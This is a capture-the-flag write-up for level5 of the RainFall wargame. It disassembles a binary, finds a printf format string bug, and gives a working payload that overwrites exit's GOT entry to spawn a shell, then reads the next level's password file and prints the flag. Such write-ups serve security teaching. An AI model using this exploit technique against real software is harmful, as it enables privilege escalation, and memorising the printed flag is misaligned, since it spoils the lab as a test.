 # **Level5**

In this level, we found a binary that takes input and print it back:

```bash
level5@RainFall:~$ ./level5
we
we
level5@RainFall:~$
```

## **Binary Analysis**

Using GDB, we analyzed the binary and discovered that the `main` function simply calls another function, `n`:

```nasm
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	and    $0xfffffff0,%esp
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave
   0x08048510 <+12>:	ret
End of assembler dump.
```

**Analysis of Function `n`**

The `n` function uses **`fgets`** to read user input into a buffer, then directly passes the buffer to **`printf`**. After printing, it calls **`exit`**.

```nasm
0x080484c2 <n+0>:       push   %ebp
0x080484c3 <n+1>:       mov    %esp,%ebp
0x080484c5 <n+3>:       sub    $0x218,%esp        ; Allocate 536 bytes
0x080484cb <n+9>:       mov    0x8049848,%eax     ; stdin
0x080484d0 <n+14>:      mov    %eax,0x8(%esp)
0x080484d4 <n+18>:      movl   $0x200,0x4(%esp)   ; Size = 512
0x080484dc <n+26>:      lea    -0x208(%ebp),%eax  ; Buffer
0x080484e2 <n+32>:      mov    %eax,(%esp)
0x080484e5 <n+35>:      call   0x80483a0 <fgets@plt>
0x080484ea <n+40>:      lea    -0x208(%ebp),%eax
0x080484f0 <n+46>:      mov    %eax,(%esp)
0x080484f3 <n+49>:      call   0x8048380 <printf@plt>
0x080484f8 <n+54>:      movl   $0x1,(%esp)
0x080484ff <n+61>:      call   0x80483d0 <exit@plt>
```

**Available Functions**

Listing all functions reveals another function, `o`, that contains shell execution logic but is never directly called:

```nasm
(gdb) info functions
All defined functions:
Non-debugging symbols:
[...]
0x080484a4  o
0x080484c2  n
[...]
```

Disassembling `o` shows that it executes **`system("/bin/sh")**:

```nasm
(gdb) disas o
Dump of assembler code for function o:
0x080484a4 <+0>:	push   %ebp
0x080484a5 <+1>:	mov    %esp,%ebp
0x080484a7 <+3>:	sub    $0x18,%esp
0x080484aa <+6>:	movl   $0x80485f0,(%esp)  ; "/bin/sh"
0x080484b1 <+13>:	call   0x80483b0 <system@plt>
0x080484b6 <+18>:	movl   $0x1,(%esp)
0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```

**Finding the Format String Offset**

By providing test input, we observe the format string behavior:

```bash
level5@RainFall:~$ ./level5
AAAA %x %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520
level5@RainFall:~$
```

The input "AAAA" (hex: 41414141) is located at **position 4** in the format string.

**GOT Analysis**

Disassembling the **`exit`** function in the Procedure Linkage Table (PLT) shows an indirect jump:

```nasm
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838    ; Indirect jump through GOT
   0x080483d6 <+6>:	push   $0x28
   0x080483db <+11>:	jmp    0x8048370
```

The instruction **`jmp *0x8049838`** indicates that the **Global Offset Table (GOT)** entry for `exit` can be overwritten.

---

**Check GOT Writeability**

Using `checksec`, we confirm the binary's security settings:

```bash
level5@RainFall:~$ checksec --file ./level5
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   ./level5
level5@RainFall:~$
```

- **No RELRO**: The GOT is writable.

## **Vulnerability**

The `n` function is vulnerable due to:

1. User input being passed directly to **`printf`**, enabling a format string vulnerability.
2. The writable GOT (due to **No RELRO**) allows us to overwrite the `exit` function's GOT entry.

## **Exploit**

To exploit the vulnerability, we overwrite the GOT entry for `exit` with the address of the `o` function. When `exit` is called, it will instead execute the `o` function, which invokes **`system("/bin/sh")**.

```python
# Target addresses
exit_got = "\x38\x98\x04\x08"  # exit@GOT in little-endian
o_addr = 0x080484a4  # Address of `o`

# Padding to write `o`'s address
padding = "%134513824x"  # Adjust for the value of `o`'s address 0x080484a4 - 4 (4 bytes the the pev address)

write = "%4$n"           # Write to the 4th parameter

# Construct the exploit
exploit = exit_got + padding + write
```

1. Generate the exploit:
    
    ```bash
    (python -c 'print "\x38\x98\x04\x08" + "%134513824x" + "%4$n"'; cat) | ./level5
    ```
    
2. Obtain the password:
    
    ```bash
    cat /home/user/level6/.pass
    ```
    
3. **Result**

```bash
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## **Flag**

```
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```